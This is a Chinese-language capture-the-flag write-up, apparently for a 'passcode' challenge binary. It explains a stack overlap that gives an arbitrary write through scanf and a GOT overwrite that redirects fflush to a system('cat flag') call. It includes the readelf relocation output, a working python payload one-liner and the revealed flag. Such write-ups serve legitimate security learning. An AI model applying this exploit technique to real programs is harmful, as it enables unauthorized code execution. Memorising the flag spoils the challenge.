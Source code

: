 当我们断在login函数中时，发现ebp的内容也为：0xffffd888。

在ida中我们发现，name的地址为：[ebp-70h] passcode1的地址为[ebp-10h]，两个地址在同一个堆栈中，而且相差为70h-10h=60h=96，而name的大小为100个字节，那么正好我们可以通过name的后四个字节来覆盖passcode1的内容。

接下来如何利用写入passcode1的地址来控制eip跳转到执行cat flag的地方，或者是跳转到我们的shellcode呢？

这里使用了GOT覆盖技术，GOT覆盖可以理解为一个程序中调用函数的表，我们利用name的后四个字节控制了scanf写入内容的地址，然后通过scanf改写GOT表，使eip跳转到我们制定的地方，我们看下程序中调用system的地址：

> 0x080485e3 <+127>: mov DWORD PTR [esp],0x80487af
  
> 0x080485ea <+134>: call 0x8048460 <system@plt>

可以看到地址为0x080485e3 这个地址是我们需要将GOT表中内容覆盖的地址，换成10进制就是：134514147，我们再看下passcode的GOT表：

> ➜ Desktop readelf -r passcode
> 
> Relocation section &#8216;.rel.dyn&#8217; at offset 0x388 contains 2 entries:
  
> Offset Info Type Sym.Value Sym. Name
  
> 08049ff0 00000606 R\_386\_GLOB\_DAT 00000000 \\_\_gmon\_start\\_\_
  
> 0804a02c 00000b05 R\_386\_COPY 0804a02c stdin@GLIBC_2.0
> 
> Relocation section &#8216;.rel.plt&#8217; at offset 0x398 contains 9 entries:
  
> Offset Info Type Sym.Value Sym. Name
  
> 0804a000 00000107 R\_386\_JUMP\_SLOT 00000000 printf@GLIBC\_2.0
  
> 0804a004 00000207 R\_386\_JUMP\_SLOT 00000000 fflush@GLIBC\_2.0
  
> 0804a008 00000307 R\_386\_JUMP\_SLOT 00000000 \_\_stack\_chk\_fail@GLIBC\_2.4
  
> 0804a00c 00000407 R\_386\_JUMP\_SLOT 00000000 puts@GLIBC\_2.0
  
> 0804a010 00000507 R\_386\_JUMP\_SLOT 00000000 system@GLIBC\_2.0
  
> 0804a014 00000607 R\_386\_JUMP\_SLOT 00000000 \\_\_gmon\_start\\_\_
  
> 0804a018 00000707 R\_386\_JUMP\_SLOT 00000000 exit@GLIBC\_2.0
  
> 0804a01c 00000807 R\_386\_JUMP\_SLOT 00000000 \_\_libc\_start\_main@GLIBC\_2.0
  
> 0804a020 00000907 R\_386\_JUMP\_SLOT 00000000 \_\_isoc99\_scanf@GLIBC_2.7

我们看到在system和printf passcode1之间调用了printf fflush，所以这些函数在GOT中的地址我们都可以利用，这里选择fflush的地址0x0804a004，这个地址是需要利用name的后四位进行覆盖的，所以我们最终的payload为：

> passcode@ubuntu:~$ python -c &#8220;print(&#8216;a&#8217;*96+&#8217;\x04\xa0\x04\x08\n&#8217;+&#8217;134514147\n&#8217;)&#8221; | ./passcode
  
> Toddler&#8217;s Secure Login System 1.0 beta.
  
> enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�!
  
> Sorry mom.. I got confused about scanf usage 🙁
  
> enter passcode1 : Now I can safely trust you that you have credential 🙂

所以flag为：

Sorry mom.. I got confused about scanf usage 🙁